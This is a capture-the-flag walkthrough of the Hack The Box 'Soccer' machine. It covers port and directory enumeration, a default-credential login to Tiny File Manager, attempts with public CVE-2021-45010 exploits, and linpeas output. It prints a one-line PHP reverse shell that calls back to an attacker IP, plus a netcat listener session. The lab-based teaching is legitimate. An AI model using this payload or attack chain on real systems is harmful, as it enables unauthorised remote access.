


# HTB Soccer Walkthrough

Written by Andy74

Nov 24, 2024 • 33 min read

---

*Turkeys performing at a modern circus show. Microsoft Copilot created this image.*

A nice BOX, very average, to which however I would like to draw your attention because this BOX was the subject of another very interesting article, also published here on Secjuice, where ChatGPT, the AI that is having great success in this period, helped me to capture the first flag of the CTF. I'll leave you the [link](https://www.secjuice.com/) here. And now, let's get started.

The **nmap** scan:

    Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-06 10:42 EST
    Nmap scan report for 10.10.11.194
    Host is up (0.11s latency).
    Not shown: 997 closed tcp ports (conn-refused)
    PORT     STATE SERVICE         VERSION
    22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
    |   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
    |_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
    80/tcp   open  http            nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://soccer.htb/
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    9091/tcp open  xmltec-xmlmail?
    | fingerprint-strings: 
    |   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
    |     HTTP/1.1 400 Bad Request
    |     Connection: close
    |   GetRequest: 
    |     HTTP/1.1 404 Not Found
    |     Content-Security-Policy: default-src 'none'
    |     X-Content-Type-Options: nosniff
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 139
    |     Date: Fri, 06 Jan 2023 15:42:02 GMT
    |     Connection: close
    |     <!DOCTYPE html>
    |     <html lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <title>Error</title>
    |     </head>
    |     <body>
    |     <pre>Cannot GET /</pre>
    |     </body>
    |     </html>
    |   HTTPOptions, RTSPRequest: 
    |     HTTP/1.1 404 Not Found
    |     Content-Security-Policy: default-src 'none'
    |     X-Content-Type-Options: nosniff
    |     Content-Type: text/html; charset=utf-8
    |     Content-Length: 143
    |     Date: Fri, 06 Jan 2023 15:42:02 GMT
    |     Connection: close
    |     <!DOCTYPE html>
    |     <html lang="en">
    |     <head>
    |     <meta charset="utf-8">
    |     <title>Error</title>
    |     </head>
    |     <body>
    |     <pre>Cannot OPTIONS /</pre>
    |     </body>
    |_    </html>
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port9091-TCP:V=7.93%I=7%D=1/6%Time=63B84168%P=x86_64-pc-linux-gnu%r(inf
    SF:ormix,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\
    SF:n\r\n")%r(drda,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x2
    SF:0close\r\n\r\n")%r(GetRequest,168,"HTTP/1\.1\x20404\x20Not\x20Found\r\n
    SF:Content-Security-Policy:\x20default-src\x20'none'\r\nX-Content-Type-Opt
    SF:ions:\x20nosniff\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nCon
    SF:tent-Length:\x20139\r\nDate:\x20Fri,\x2006\x20Jan\x202023\x2015:42:02\x
    SF:20GMT\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=
    SF:\"en\">\n<head>\n<meta\x20charset=\"utf-8\">\n<title>Error</title>\n</h
    SF:ead>\n<body>\n<pre>Cannot\x20GET\x20/</pre>\n</body>\n</html>\n")%r(HTT
    SF:POptions,16C,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Poli
    SF:cy:\x20default-src\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nC
    SF:ontent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20143\r
    SF:\nDate:\x20Fri,\x2006\x20Jan\x202023\x2015:42:02\x20GMT\r\nConnection:\
    SF:x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<met
    SF:a\x20charset=\"utf-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Ca
    SF:nnot\x20OPTIONS\x20/</pre>\n</body>\n</html>\n")%r(RTSPRequest,16C,"HTT
    SF:P/1\.1\x20404\x20Not\x20Found\r\nContent-Security-Policy:\x20default-sr
    SF:c\x20'none'\r\nX-Content-Type-Options:\x20nosniff\r\nContent-Type:\x20t
    SF:ext/html;\x20charset=utf-8\r\nContent-Length:\x20143\r\nDate:\x20Fri,\x
    SF:2006\x20Jan\x202023\x2015:42:02\x20GMT\r\nConnection:\x20close\r\n\r\n<
    SF:!DOCTYPE\x20html>\n<html\x20lang=\"en\">\n<head>\n<meta\x20charset=\"ut
    SF:f-8\">\n<title>Error</title>\n</head>\n<body>\n<pre>Cannot\x20OPTIONS\x
    SF:20/</pre>\n</body>\n</html>\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\
    SF:x20Request\r\nConnection:\x20close\r\n\r\n")%r(DNSVersionBindReqTCP,2F,
    SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r
    SF:(DNSStatusRequestTCP,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConnecti
    SF:on:\x20close\r\n\r\n")%r(Help,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
    SF:nConnection:\x20close\r\n\r\n")%r(SSLSessionReq,2F,"HTTP/1\.1\x20400\x2
    SF:0Bad\x20Request\r\nConnection:\x20close\r\n\r\n");
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 43.06 seconds

And let's move immediately to the portal (port **_80_**), which will certainly be our access point, of course, not before adding the "**soccer.htb**" domain to our **/etc/hosts** file.

A football portal.

> And here, a sore point about me that I have to tell to allow those who have been following me for many time to get to know me better. Well, although football is the national sport of my homeland, ahimè, I don't follow football. Well yes, swimming against the tide, unfortunately as a bad Italian that I am, I'm not that passionate about sport and above all about football which I really don't like. After the digression, let's go back to our BOX.

There is nothing particular from **wappalyzer**.

A simple **gobuster** scan for hidden routes.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ gobuster dir -u http://soccer.htb -w /usr/share/dirb/wordlists/common.txt
    ===============================================================
    Gobuster v3.4
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://soccer.htb
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/dirb/wordlists/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.4
    [+] Timeout:                 10s
    ===============================================================
    2023/01/06 12:40:23 Starting gobuster in directory enumeration mode
    ===============================================================
    /.hta                 (Status: 403) [Size: 162]
    /.htaccess            (Status: 403) [Size: 162]
    /.htpasswd            (Status: 403) [Size: 162]
    /index.html           (Status: 200) [Size: 6917]
    Progress: 4611 / 4615 (99.91%)
    ===============================================================
    2023/01/06 12:41:16 Finished
    ===============================================================

Again, nothing interesting. Let's move on to the subdomains using **wfuzz**.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ wfuzz -w /usr/share/dnsrecon/subdomains-top1mil-5000.txt -H "Host: FUZZ.soccer.htb" --hc "301" http://soccer.htb
     /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************
    
    Target: http://soccer.htb/
    Total requests: 5000
    
    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                                                                 
    =====================================================================
    
    000002700:   400        7 L      12 W       166 Ch      "m."                                                                                                                                    
    000002795:   400        7 L      12 W       166 Ch      "ns2.cl.bellsouth.net."                                                                                                                 
    000002883:   400        7 L      12 W       166 Ch      "ns1.viviotech.net."                                                                                                                    
    000002885:   400        7 L      12 W       166 Ch      "ns2.viviotech.net."                                                                                                                    
    000003050:   400        7 L      12 W       166 Ch      "ns3.cl.bellsouth.net."                                                                                                                 
    000004081:   400        7 L      12 W       166 Ch      "ferrari.fortwayne.com."                                                                                                                
    000004083:   400        7 L      12 W       166 Ch      "quatro.oweb.com."                                                                                                                      
    000004082:   400        7 L      12 W       166 Ch      "jordan.fortwayne.com."                                                                                                                 
    
    Total time: 59.23708
    Processed Requests: 5000
    Filtered Requests: 4992
    Requests/sec.: 84.40657

The BOX appears to be overbearing, but let's broaden the search with a larger _dictionary_.

    ┌──(in7rud3r㉿kali-muletto)-[~/Dropbox/hackthebox]
    └─$ gobuster dir -u http://soccer.htb -w /usr/share/dirb/wordlists/big.txt 
    ===============================================================
    Gobuster v3.4
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://soccer.htb
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/dirb/wordlists/big.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.4
    [+] Timeout:                 10s
    ===============================================================
    2023/01/06 13:30:25 Starting gobuster in directory enumeration mode
    ===============================================================
    /.htpasswd            (Status: 403) [Size: 162]
    /.htaccess            (Status: 403) [Size: 162]
    /tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
    Progress: 20463 / 20470 (99.97%)
    ===============================================================
    2023/01/06 13:34:15 Finished
    ===============================================================

OK, that's better.

Let's try to understand what we are dealing with, just a simple search is this interesting _filemanager_ emerges from the depths of **github**.

[Tiny File Manager](https://tinyfilemanager.github.io/?ref=secjuice.com)

Search now for exploits.

That seems to be fine, except that all exploits require user credentials. I discovered the _administrator_'s default user credentials, which surely have been changed... like getting a lollipop from a child! Perfect, I can go back to the _exploits_ I found and start trying them until I find what works for me.

[Tiny File Manager 2.4.6 - Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50828?ref=secjuice.com)

I had some problems at the beginning with the downloaded file, but I solved it with the **dostounix** command, then renamed the file, added execute permissions, installed **jq** and finally try the exploit.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/expl]
    └─$ ./50828.sh http://soccer.htb/tiny admin admin@123
    /usr/bin/curl
    [✔] Curl found! 
    /usr/bin/jq
    [✔] jq found! 
    
    [-] Logn Failed! 
    [-] Can't find WEBROOT! Using default /var/www/html 
    [-] File Upload Unsuccessful! Exiting!

I tried to search for the same exploit on **github** and luckily for me. I found it.

[GitHub - febinrev/tinyfilemanager-2.4.3-exploit: A Path traversal vulnerability in the file upload functionality in tinyfilemanager.php in Tiny File Manager Project’s Tiny File Manager <= 2.4.6 allows remote attackers with valid user accounts to upload malicious PHP files to the webroot and achieve code execution on the target server.](https://github.com/febinrev/tinyfilemanager-2.4.3-exploit?ref=secjuice.com)

But the same error occurs. I studied the _exploit_ and realized that it does nothing but _upload_ a file. I tried to figure out where the flow gets stuck by running the script commands manually.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/attack/expl/git/tinyfilemanager-2.4.3-exploit]
    └─$ curl "http://soccer.htb/tiny" -X POST -s -d "fm_usr=admin&fm_pwd=admin@123" -i                                                                                    
    HTTP/1.1 301 Moved Permanently
    Server: nginx/1.18.0 (Ubuntu)
    Date: Wed, 25 Jan 2023 21:08:51 GMT
    Content-Type: text/html
    Content-Length: 178
    Location: http://soccer.htb/tiny/
    Connection: keep-alive
    
    <html>
    <head><title>301 Moved Permanently</title></head>
    <body>
    
<h1>301 Moved Permanently</h1>

    

nginx/1.18.0 (Ubuntu)

    </body>
    </html>
                                                                                                                                                                                                             
    ┌──(in7rud3r㉿kali-muletto)-[~/…/attack/expl/git/tinyfilemanager-2.4.3-exploit]
    └─$ curl "http://soccer.htb/tiny/" -X POST -s -d "fm_usr=admin&fm_pwd=admin@123" -i
    HTTP/1.1 302 Found
    Server: nginx/1.18.0 (Ubuntu)
    Date: Wed, 25 Jan 2023 21:09:02 GMT
    Content-Type: text/html; charset=UTF-8
    Transfer-Encoding: chunked
    Connection: keep-alive
    Set-Cookie: filemanager=su0addf783d7l7cg0jiaq7g5iq; path=/
    Location: http://soccer.htb/tiny/tinyfilemanager.php?p=

This cleared things up a bit for me. Apparently, calling the URL without completing it with the "_slash_" returns an error code _**301**_ (_moved permanently_) to the same address but with the final "_slash_" and, again, once the URL is corrected, a new redirect (**_302_** this time) is carried out (too bad that if not specified, the curls do not follow the redirects due to **_301_** and **_302_** errors).

    ┌──(in7rud3r㉿kali-muletto)-[~/…/attack/expl/git/tinyfilemanager-2.4.3-exploit]
    └─$ ./exploit.sh http://soccer.htb/tiny/tinyfilemanager.php admin admin@123
    /usr/bin/curl
    [✔] Curl found! 
    /usr/bin/jq
    [✔] jq found! 
    
    [+]  Login Success! Cookie: filemanager=16lo7imigtdi84g10i8isf8taa 
    
    [*] Try to Leak Web root directory path 
    
    [+] Found WEBROOT directory for tinyfilemanager using full path disclosure bug : /var/www/html/tiny/ 
    
    [-] File Upload Unsuccessful! Exiting!

Better, but there still seems to be something wrong. Let's try the other script again by adjusting the shot there, too.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/attack/expl/git/tinyfilemanager-2.4.3-exploit]
    └─$ python tiny_file_manager_exploit.py http://soccer.htb/tiny/tinyfilemanager.php admin admin@123 
     
    
    CVE-2021-45010: Tiny File Manager <= 2.4.3 Authenticated RCE  Exploit.
    
    Vulnerability discovered by Febin
    
    Exploit Author: FEBIN
    
    [+] Leak in the webroot direcory path to upload shell.
    [+] WEBROOT found:  /var/www/html/tiny
    [+] Trying to upload pwn_749599792829250560.php to /var/www/html/tiny directory...
    {"status":"error","info":"The specified folder for upload isn't writeable."}
    [-] No Success response. Files does not seem to be uploaded successfully.
    Exiting...
    Exited.

Nothing. At this point, I tried to upload manually, but I tried with **php** reverse shells. Obviously, some time has passed before I find the right one.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/expl]
    └─$ echo "<?php exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.145/4444 0>&1'\");?>" > shell_in7.php

I uploaded the file and started the shell from the link where it was saved ([http://soccer.htb/tiny/uploads/shell\_in7.php](http://soccer.htb/tiny/uploads/shell_in7.php?ref=secjuice.com)). Et voilà, we are inside.

    ┌──(in7rud3r㉿kali-muletto)-[~/…/hackthebox/_10.10.11.194 - Soccer (lin)/attack/expl]
    └─$ nc -lvp 4444                 
    listening on [any] 4444 ...
    connect to [10.10.14.145] from soccer.htb [10.10.11.194] 53458
    bash: cannot set terminal process group (1039): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@soccer:~/html/tiny/uploads$ 

Of course, I'm the user running the portal instance (**www-data**), so there's little I can do yet.

    www-data@soccer:/$ cd home
    cd home
    www-data@soccer:/home$ ls -la
    ls -la
    total 12
    drwxr-xr-x  3 root   root   4096 Nov 17 09:25 .
    drwxr-xr-x 21 root   root   4096 Dec  1 18:51 ..
    drwxr-xr-x  3 player player 4096 Nov 28 22:12 player
    www-data@soccer:/home$ cd player
    cd player
    www-data@soccer:/home/player$ ls -la
    ls -la
    total 28
    drwxr-xr-x 3 player player 4096 Nov 28 22:12 .
    drwxr-xr-x 3 root   root   4096 Nov 17 09:25 ..
    lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .bash_history -> /dev/null
    -rw-r--r-- 1 player player  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 player player 3771 Feb 25  2020 .bashrc
    drwx------ 2 player player 4096 Nov 17 09:00 .cache
    -rw-r--r-- 1 player player  807 Feb 25  2020 .profile
    lrwxrwxrwx 1 root   root      9 Nov 17 09:02 .viminfo -> /dev/null
    -rw-r----- 1 root   player   33 Jan 25 17:36 user.txt
    www-data@soccer:/home/player$ cat user.txt
    cat user.txt
    cat: user.txt: Permission denied
    www-data@soccer:/home/player$

Discovered the name of the user who owns the flag (**player**), we started a session of **linpeas**.

    [...]
    ╔══════════╣ CVEs Check
    Vulnerable to CVE-2021-3560                                                                                                                                                                              
    
    Potentially Vulnerable to CVE-2022-2588
    [...]
    ╔══════════╣ Executing Linux Exploit Suggester
    ╚ https://github.com/mzet-/linux-exploit-suggester                                                                                                                                                       
    [+] [CVE-2022-2586] nft_object UAF                                                                                                                                                                       
    
       Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
       Exposure: probable
       Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
       Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
       Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
    
    [+] [CVE-2021-4034] PwnKit
    
       Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
       Exposure: probable
       Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
       Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
    
    [+] [CVE-2021-3156] sudo Baron Samedit
    
       Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
       Exposure: probable
       Tags: mint=19,[ ubuntu=18|20 ], debian=10
       Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main
    
    [+] [CVE-2021-3156] sudo Baron Samedit 2
    
       Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
       Exposure: probable
       Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
       Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main
    
    [+] [CVE-2021-22555] Netfilter heap out-of-bounds write
    
       Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
       Exposure: probable
       Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
       Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
       ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
       Comments: ip_tables kernel module must be loaded
    
    [+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)
    
       Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
    https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
       Exposure: less probable
       Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
       Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
       Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)
    
    [+] [CVE-2017-5618] setuid screen v4.5.0 LPE
    
       Details: https://seclists.org/oss-sec/2017/q1/184
       Exposure: less probable
       Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
    [...]
    ╔══════════╣ Active Ports
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                            
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                                        
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1098/nginx: worker  
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 0.0.0.0:9091            0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::80                   :::*                    LISTEN      1098/nginx: worker  
    tcp6       0      0 :::22                   :::*                    LISTEN      -                   
    [...]
    ╔══════════╣ Checking doas.conf
    permit nopass player as root cmd /usr/bin/dstat                                                                                                                                                          
    [...]
    ╔══════════╣ Analyzing MariaDB Files (limit 70)
                                                                                                                                                                                                             
    -rw------- 1 root root 317 Dec  1 18:13 /etc/mysql/debian.cnf
    [...]
    ══╣ PHP exec extensions
    drwxr-xr-x 2 root root 4096 Dec  1 13:48 /etc/nginx/sites-enabled                                                                                                                                        
    drwxr-xr-x 2 root root 4096 Dec  1 13:48 /etc/nginx/sites-enabled
    lrwxrwxrwx 1 root root 41 Nov 17 08:39 /etc/nginx/sites-enabled/soc-player.htb -> /etc/nginx/sites-available/soc-player.htb
    server {
            listen 80;
            listen [::]:80;
            server_name soc-player.soccer.htb;
            root /root/app/views;
            location / {
                    proxy_pass http://localhost:3000;
                    proxy_http_version 1.1;
                    proxy_set_header Upgrade $http_upgrade;
                    proxy_set_header Connection 'upgrade';
                    proxy_set_header Host $host;
                    proxy_cache_bypass $http_upgrade;
            }
    }
    lrwxrwxrwx 1 root root 34 Nov 17 08:06 /etc/nginx/sites-enabled/default -> /etc/nginx/sites-available/default
    server {
            listen 80;
            listen [::]:80;
            server_name 0.0.0.0;
            return 301 http://soccer.htb$request_uri;
    }
    server {
            listen 80;
            listen [::]:80;
            server_name soccer.htb;
            root /var/www/html;
            index index.html tinyfilemanager.php;
    
            location / {
                   try_files $uri $uri/ =404;
            }
            location ~ \.php$ {
                    include snippets/fastcgi-php.conf;
                    fastcgi_pass unix:/run/php/php7.4-fpm.sock;
            }
            location ~ /\.ht {
                    deny all;
            }
    }
    [...]
    ╔══════════╣ Analyzing Interesting logs Files (limit 70)
    -rw-r----- 1 www-data adm 57242549 Jan 25 21:25 /var/log/nginx/access.log                                                                                                                                
    
    -rw-r--r-- 1 root root 11057 Jan 25 21:25 /var/log/nginx/error.log
    [...]
                                   ╔═══════════════════╗
    ═══════════════════════════════╣ Interesting Files ╠═══════════════════════════════                                                                                                                      
                                   ╚═══════════════════╝                                                                                                                                                     
    ╔══════════╣ SUID - Check easy privesc, exploits and write perms
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                         
    -rwsr-xr-x 1 root root 42K Nov 17 09:09 /usr/local/bin/doas                                                                                                                                              
    -rwsr-xr-x 1 root root 140K Nov 28 04:55 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
    -rwsr-xr-- 1 root messagebus 51K Oct 25 13:09 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 463K Mar 30  2022 /usr/lib/openssh/ssh-keysign
    -rwsr-xr-x 1 root root 23K Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
    -rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
    -rwsr-xr-x 1 root root 39K Feb  7  2022 /usr/bin/umount  --->  BSD/Linux(08-1996)
    -rwsr-xr-x 1 root root 39K Mar  7  2020 /usr/bin/fusermount
    -rwsr-xr-x 1 root root 55K Feb  7  2022 /usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
    -rwsr-xr-x 1 root root 67K Feb  7  2022 /usr/bin/su
    -rwsr-xr-x 1 root root 44K Nov 29 11:53 /usr/bin/newgrp  --->  HP-UX_10.20
    -rwsr-xr-x 1 root root 84K Nov 29 11:53 /usr/bin/chfn  --->  SuSE_9.3/10
    -rwsr-xr-x 1 root root 163K Jan 19  2021 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
    -rwsr-xr-x 1 root root 67K Nov 29 11:53 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
    -rwsr-xr-x 1 root root 87K Nov 29 11:53 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 52K Nov 29 11:53 /usr/bin/chsh
    -rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
    -rwsr-xr-x 1 root root 121K Nov 25 17:29 /snap/snapd/17883/usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
    -rwsr-xr-x 1 root root 84K Mar 14  2022 /snap/core20/1695/usr/bin/chfn  --->  SuSE_9.3/10
    -rwsr-xr-x 1 root root 52K Mar 14  2022 /snap/core20/1695/usr/bin/chsh
    -rwsr-xr-x 1 root root 87K Mar 14  2022 /snap/core20/1695/usr/bin/gpasswd
    -rwsr-xr-x 1 root root 55K Feb  7  2022 /snap/core20/1695/usr/bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8
    -rwsr-xr-x 1 root root 44K Mar 14  2022 /snap/core20/1695/usr/bin/newgrp  --->  HP-UX_10.20
    -rwsr-xr-x 1 root root 67K Mar 14  2022 /snap/core20/1695/usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)
    -rwsr-xr-x 1 root root 67K Feb  7  2022 /snap/core20/1695/usr/bin/su
    -rwsr-xr-x 1 root root 163K Jan 19  2021 /snap/core20/1695/usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
    -rwsr-xr-x 1 root root 39K Feb  7  2022 /snap/core20/1695/usr/bin/umount  --->  BSD/Linux(08-1996)
    -rwsr-xr-- 1 root systemd-resolve 51K Oct 25 13:09 /snap/core20/1695/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 463K Mar 30  2022 /snap/core20/1695/usr/lib/openssh/ssh-keysign
    
    ╔══════════╣ SGID
    ╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid                                                                                                                         
    -rwxr-sr-x 1 root utmp 15K Sep 30  2019 /usr/lib/x86_64-linux-gnu/utempter/utempter                                                                                                                      
    -rwxr-sr-x 1 root shadow 31K Nov 29 11:53 /usr/bin/expiry
    -rwxr-sr-x 1 root crontab 43K Feb 13  2020 /usr/bin/crontab
    -rwxr-sr-x 1 root tty 15K Mar 30  2020 /usr/bin/bsd-write
    -rwxr-sr-x 1 root ssh 343K Mar 30  2022 /usr/bin/ssh-agent
    -rwxr-sr-x 1 root shadow 83K Nov 29 11:53 /usr/bin/chage
    -rwxr-sr-x 1 root tty 35K Feb  7  2022 /usr/bin/wall
    -rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
    -rwxr-sr-x 1 root shadow 43K Sep 17  2021 /usr/sbin/pam_extrausers_chkpwd
    -rwxr-sr-x 1 root shadow 43K Sep 17  2021 /usr/sbin/unix_chkpwd
    -rwxr-sr-x 1 root shadow 83K Mar 14  2022 /snap/core20/1695/usr/bin/chage
    -rwxr-sr-x 1 root shadow 31K Mar 14  2022 /snap/core20/1695/usr/bin/expiry
    -rwxr-sr-x 1 root crontab 343K Mar 30  2022 /snap/core20/1695/usr/bin/ssh-agent
    -rwxr-sr-x 1 root tty 35K Feb  7  2022 /snap/core20/1695/usr/bin/wall
    -rwxr-sr-x 1 root shadow 43K Sep 17  2021 /snap/core20/1695/usr/sbin/pam_extrausers_chkpwd
    -rwxr-sr-x 1 root shadow 43K Sep 17  2021 /snap/core20/1695/usr/sbin/unix_chkpwd
    [...]

I omitted some **CVEs**, now aware that most are false positives. The open ports **_3306_** and **_33060_** indicate a running **mySQL** instance, where however, the **root** user cannot access. However, in the portal configuration files, there is a _subdomain_ (**soc-player.soccer.htb**), which I immediately insert in my **/etc/hosts** file. However, I completed the scan overview with the **SUID** and **SGID** files, which led me nowhere anyway.

